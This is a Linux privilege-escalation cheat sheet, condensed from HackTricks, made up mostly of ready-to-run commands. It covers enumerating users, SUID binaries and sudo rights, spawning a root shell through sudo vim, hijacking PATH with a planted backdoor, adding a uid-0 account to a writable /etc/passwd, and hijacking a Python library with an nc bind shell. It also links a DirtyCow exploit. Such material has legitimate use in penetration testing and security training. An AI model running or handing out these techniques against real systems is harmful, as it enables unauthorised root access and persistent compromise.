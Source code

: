# Linux Privilege Escalation

Condensed version of the checklist found on [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation). There is a plethora of ways to escalate privileges but I'm going to list the most common ways to escalate privileges (In my experience) 

## System Information

### Path
Check for write permissions on any folder within your PATH. Potential to hijack libraries or binaries.
```bash
echo $PATH
```

### Kernel Exploits
Check the OS and kernel version for potential exploits
```
cat /etc/issue
uname -a
```

### CVE-2016-5195 (DirtyCow)
Impacts Linux kernel versions <4.8.3
```
https://github.com/exrienz/DirtyCow
```

### Sudo
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```

### Check for compiler
It's always best to try and compile exploits on the target machine. This reduces the chance of error from being compiled on a different architecture.
```bash
dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/"
```
### Installed Software
Find software installed on the machine along with its version. Might find some old software that has a vulnerability.
```bash
dpkg -l #Debian-based
rpm -qa #Centos-based
```

### Running processes
```
ps aux
```

## Users
### Standard Enumeration
```bash
#Info about me
id || (whoami && groups) 2>/dev/null
#List all users
cat /etc/passwd | cut -d: -f1
#List users with console
cat /etc/passwd | grep "sh$"
#List superusers
awk -F: '($3 == "0") {print}' /etc/passwd
#Currently logged users
w
#Login history
last | tail
#Last log of each user
lastlog

#List all users and their groups
for i in $(cut -d":" -f1 /etc/passwd 2>/dev/null);do id $i;done 2>/dev/null | sort
```

### Sudo/SUID
```bash
sudo -l #Check commands you can execute with sudo
find / -perm -4000 2>/dev/null #Find all SUID binaries
```


### NOPASSWD
With this permission, the user can run a specific command (or any) as another user without knowing the password.
```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```
Here the user demo can run the vim command as the root user. We could get a root shell by executing the following:
```bash
sudo vim -c '!sh'
```

### Sudo/SUID w/o command path
If the user has sudo permission for a command without specifying its path (i.e *randomuser ALL = (root) less*), it can be exploited by changing the PATH variable
```bash
export PATH=/tmp:$PATH
#Put your backdoor in /tmp and name it "less"
sudo less
```

### GTFOBins
[GTFOBins](https://gtfobins.github.io/) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. With these you can break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and lots of other things.

__NOTE__: [FallofSudo](https://github.com/Critical-Start/FallofSudo) can help exploit permissions from `sudo -l`

## SSH
### Config Values
SSH configuration files are typically either /etc/ssh/ssh_config or /etc/ssh/sshd_config. Within these files you may find some interesting values:
```
PasswordAuthentication: Specifies whether password authentication is allowed. The default is no.
PubkeyAuthentication: Specifies whether public key authentication is allowed. The default is yes.
PermitEmptyPasswords: When password authentication is allowed, it specifies whether the server allows login to accounts with empty password strings. The default is no.
```

### PermitRootLogin
Specifies whether root can log in using ssh, default is no. Possible values:
* `yes` : root can login using password and private key
* `without-password` or `prohibit-password`: root can only login with private key
* `forced-commands-only`: Root can login only using privatekey cand if the commands options is specified
* `no` : no

### AuthorizedKeysFile
Sometimes you may be able to obtain the private ssh key of another, more privileged user. This will enable you to ssh in as that user without knowing their password. This key file `id_rsa` will usually be located in the `/home/{USER}/.ssh` directory.

## Interesting Files
### Writeable /etc/passwd
If `/etc/passwd` is writable, you can easily create a user with root privileges.
```
perl -e 'print crypt("{PASSWOR}", "{SALT}"),"\n"'
```
Then add the user and generated password to the file
```
USER_HERE:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash
```

### Writing to a sensitive file
```bash
find / '(' -type f -or -type d ')' '(' '(' -user $USER ')' -or '(' -perm -o=w ')' ')' 2>/dev/null | grep -v '/proc/' | grep -v $HOME | sort | uniq #Find files owned by the user or writable by anybody
for g in `groups`; do find \( -type f -or -type d \) -group $g -perm -g=w 2>/dev/null | grep -v '/proc/' | grep -v $HOME; done #Find files writable by any group of the user
```

### Backup files
```bash
find /var /etc /bin /sbin /home /usr/local/bin /usr/local/sbin /usr/bin /usr/games /usr/sbin /root /tmp -type f \( -name "*backup*" -o -name "*\.bak" -o -name "*\.bck" -o -name "*\.bk" \) 2>/dev/nulll
```

### Python library hijacking
Let's say a python script is executed as root and uses the library shutil. To hijack the file and get a root shell, create a shutil.py file, re-create the method that is called but put in a reverse shell command. For example, say it calls the make_archive method of shutil, then our shutil.py would look something like this:
```python
import os

os.system("nc -lvp 9000 -e /bin/bash")
```
Next whatever directory this is in, we'll have to add it to the python path so it will be called instead of the standard shutil library.
```bash
sudo -E PYTHONPATH=$(pwd)
```
Once the script runs, connect to the port:
```
rlwrap nc IP 9000
```
